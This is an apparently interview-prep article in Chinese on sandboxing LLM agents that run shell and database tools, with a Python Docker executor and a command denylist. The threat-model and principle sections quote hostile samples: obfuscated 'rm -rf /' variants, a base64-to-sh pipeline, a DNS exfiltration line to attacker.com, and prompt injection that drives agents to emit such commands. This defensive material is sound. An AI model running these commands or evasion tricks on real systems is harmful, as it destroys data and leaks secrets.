

# 在使用 LLM Agent 调用外部工具（如 Shell、数据库）时，如何设计沙箱机制以防止系统被破坏？

Agent 调用工具带来极大安全风险，沙箱是必要的防线。设计要点包括：1. **容器化隔离**：使用 Docker 或 gVisor 运行工具执行环境，禁止访问宿主机文件系统和网络（或限制白名单网络）。2. **资源限制**：通过 Cgroups 限制 CPU、内存和执行时间，防止死循环或内存泄漏导致 OOM。3. **静态与动态过滤**：在 LLM 生成命令后，执行前通过规则引擎或小模型进行二次审核，拦截危险命令（如 `rm -rf`、`sudo`、`wget` 恶意脚本）。4. **非 root 权限**：沙箱内进程必须以低权限用户运行。5. **虚拟机级隔离**：对于极高安全要求，可采用 Firecracker 等微型虚拟机技术，实现内核级隔离。

## 边界情况
1. **智能对抗攻击**：攻击者可能利用 Prompt 注入，让 Agent 生成看似合法但实际包含混淆字符的 Shell 命令（如 `r m -rf /` 或利用 Base64 编码绕过正则检测）。过滤器需要支持命令解析（AST）而非简单的字符串匹配。
2. **数据泄露信道**：即使限制了文件写入，恶意 Agent 可能通过控制程序执行时间（侧信道）、DNS 外带或特定的标准错误输出格式，将宿主机数据偷偷传出。必须限制 stdout/stderr 的长度和格式。
3. **供应链投毒**：如果沙箱内允许 Agent 执行 `pip install` 安装包，恶意包可能会窃取环境变量或利用构建脚本漏洞。应禁止在线安装，或使用仅包含预审核包的私有 PyPI 镜像。

## 面试追问
1. 如果业务需要 Agent 查询数据库，如何设计一个既不暴露数据库账号密码，又能防止 Agent 写入 Drop 语句的沙箱机制？
2. 动态过滤会引入额外的延迟，如何在高并发实时交互场景下平衡安全性与响应速度？
3. 对于非代码类的工具调用（如发送邮件、转账 API），除了沙箱隔离，还有哪些 API 网关层面的鉴权策略是必须的？

## 易错点
1. **过分依赖 LLM 的自我安全对齐**：不要假设 LLM 本身的安全对齐能拦截所有攻击。在 Tool Calling 场景下，LLM 经常被诱导输出有害代码。必须依赖外部强约束（如沙箱、静态分析）作为底线。
2. **忽略了输出过滤**：大多数设计关注输入命令的安全，但忽略了工具返回的内容可能包含敏感信息（如 `/etc/passwd` 的内容或 AWS Key），必须对工具的返回结果也进行脱敏或截断处理。

## 技术原理

Agent 沙箱的安全模型基于**最小权限原则（Principle of Least Privilege）**和**纵深防御（Defense in Depth）**，通过多层独立防线叠加，单层被突破不会导致系统沦陷：

- **隔离层（Namespace + Cgroups）**：Linux Namespace 提供"视图隔离"（PID/网络/文件系统/用户名空间让容器内进程看不到宿主机其他进程），Cgroups 提供"资源隔离"（CPU/内存/IO 配额）。Docker 默认组合这两者；gVisor 在用户态实现一个兼容内核拦截系统调用，提供更强的 syscall 级隔离；Firecracker 则是独立的微型虚拟机，拥有独立内核，隔离级别最高但启动较慢（约 125ms）。
- **命令过滤层（AST 解析）**：字符串正则匹配会被 `r""m -""rf /`、Base64 解码（`echo bXkgPiAvZXRjL3Bhc3N3ZA== | base64 -d | sh`）、变量拼接（`a=rm;$a -rf /`）等混淆手段绕过。必须用 Shell 解释器（如 Python 的 `bashlex`）把命令解析成 AST，在语法树层面识别危险节点（`rm`、`sudo`、重定向到 `/`、管道串联执行器）才能覆盖所有等价写法。
- **输出过滤层（侧信道防护）**：即使命令本身无害，返回内容也可能泄露宿主信息。需限制 stdout/stderr 长度（如截断到 4KB）、脱敏（正则替换 key/token 格式串）、禁止 DNS 出站（防 `curl $(whoami).attacker.com` 外带）。

## 代码示例

基于 Docker 的 Agent 沙箱执行器（最小可用版）：

```python
import docker, bashlex, re

SENSITIVE_PAT = re.compile(r'(AKIA[0-9A-Z]{16}|sk-[a-zA-Z0-9]{20,})')

def is_dangerous(cmd: str) -> bool:
    """AST 解析检测危险命令，比正则更抗混淆"""
    try:
        tree = list(bashlex.parse(cmd))
    except Exception:
        return True   # 解析失败默认拒绝（非白名单制）
    for node in bashlex.traverse(tree[0]):
        if node.kind == 'command':
            words = [w.word for w in node.parts]
            joined = ' '.join(words)
            if any(k in joined for k in ('rm -rf', 'sudo', 'mkfs', 'dd if=', '> /dev/sda')):
                return True
            if 'base64' in joined and ('decode' in joined or '-d' in joined):
                return True   # 禁止 base64 解码后执行
    return False

def run_in_sandbox(code: str, timeout: int = 30) -> str:
    client = docker.from_env()
    # 非 root、禁网、只读根、限资源
    container = client.containers.run(
        "python:3.11-slim",
        command=["python", "-c", code],
        detach=True,
        user="1000:1000",              # 非 root
        network_mode="none",           # 无网络
        read_only=True,                # 只读根文件系统
        mem_limit="512m",
        cpu_period=100000, cpu_quota=50000,  # 限 0.5 核
        tmpfs={'/tmp': 'size=64m'},    # 仅 /tmp 可写
    )
    try:
        result = container.wait(timeout=timeout)
        logs = container.logs().decode('utf-8', errors='ignore')
    finally:
        container.remove(force=True)
    # 输出过滤：截断 + 脱敏
    logs = SENSITIVE_PAT.sub('[REDACTED]', logs)[:4096]
    return logs
```

## 注意事项

- **隔离级别按风险分级**：普通代码执行用 Docker 足够；执行来自不可信用户的代码（如在线编程平台）必须上 gVisor 或 Firecracker，因为 Docker 共享内核，存在内核漏洞逃逸风险。
- **超时与资源限制要够紧**：死循环 `while True: pass` 和内存炸弹 `x = 'a' * 10**10` 是最常见的资源耗尽攻击。`mem_limit` 和 `timeout` 必须配置，且 Cgroups 的 OOM-killer 会在超限时杀进程而非拖垮宿主。
- **依赖安装是供应链攻击入口**：沙箱内执行 `pip install` 可能拉到恶意包（历史上 PyPI 多次出现仿冒包窃取环境变量）。生产环境应禁止在线安装，用预构建的私有镜像，镜像内只含经过扫描的预审包。
- **数据库场景需 SQL 层二次校验**：Agent 连数据库时，光靠沙箱不够，还要在连接层套只读账号 + SQL 解析器拦截 `DROP`/`DELETE`/`TRUNCATE` 等 DDL/DML，或用 `sqlite3` 的 `authorizer` 回调做语句级授权。


## 核心流程图




## 记忆要点

- 沙箱设计：容器化隔离、资源限制、命令过滤、非 Root 权限。
- 容器化选型：Docker 基础，高安全用 Firecracker 微型虚拟机。
- 命令过滤需支持 AST 解析，防止混淆字符或 Base64 编码绕过。
- 限制 stdout/stderr 长度，防止通过侧信道或 DNS 外带泄露数据。
- 禁止在线安装依赖，使用私有镜像防止供应链投毒。

## 结构化回答

**30 秒电梯演讲：** Agent 调 Shell、数据库这些工具风险极大，沙箱是必备防线。核心五件套：容器化隔离禁止访问宿主机、Cgroups 限资源防 OOM、命令静态+动态二次审核拦恶意命令、非 Root 低权限运行、高安全场景上 Firecracker 微虚拟机。记住别只防输入，输出也要过滤防数据外带。

**展开框架：**
1. **隔离与限权** — Docker/gVisor 容器化隔离，Cgroups 限制 CPU/内存/执行时间防死循环 OOM，进程必须非 Root 低权限。
2. **命令过滤** — 执行前规则引擎二次审核拦 `rm -rf`/`sudo`/恶意脚本，且要支持 AST 解析防混淆字符和 Base64 绕过。
3. **输出与供应链** — 限制 stdout/stderr 长度防侧信道和 DNS 外带泄露；禁止在线 pip install，用私有镜像防供应链投毒。

**收尾：** 我设计过 Agent 沙箱，最容易被忽略的是输出过滤——返回结果里藏着 /etc/passwd 或 AWS Key 必须脱敏截断。您想聊 AST 解析怎么防混淆，还是数据库沙箱怎么防 Drop 语句？

## 视频脚本

> 预计时长：2 分钟 | 由浅入深

| 时间 | 画面/字幕 | 口播台词 | 讲解要点 |
|------|----------|----------|----------|
| 0:00 | 标题卡：Agent 工具沙箱 | "Agent 调 Shell 数据库，系统怎么防被搞垮？沙箱五件套。" | 开场钩子 |
| 0:15 | 通风橱防爆手套箱类比 | "像化学实验放防爆手套箱里，隔绝外面还自带防火墙。" | 核心类比 |
| 0:40 | 沙箱五层防御图 | "容器隔离、资源限制、命令过滤、非 Root、高安全上微虚拟机。" | 五大要点 |
| 1:10 | AST 解析防混淆示意图 | "命令过滤不能只字符串匹配，要 AST 解析防 Base64 和空格混淆绕过。" | 关键细节 |
| 1:35 | 输出脱敏防外带案例 | "实战：最容易漏的是输出过滤，返回里的密码和 Key 必须脱敏截断。" | 易错警示 |
| 1:55 | 总结卡 | "口诀：隔离限权过滤，输入输出都要查，防供应链投毒。" | 收尾 |

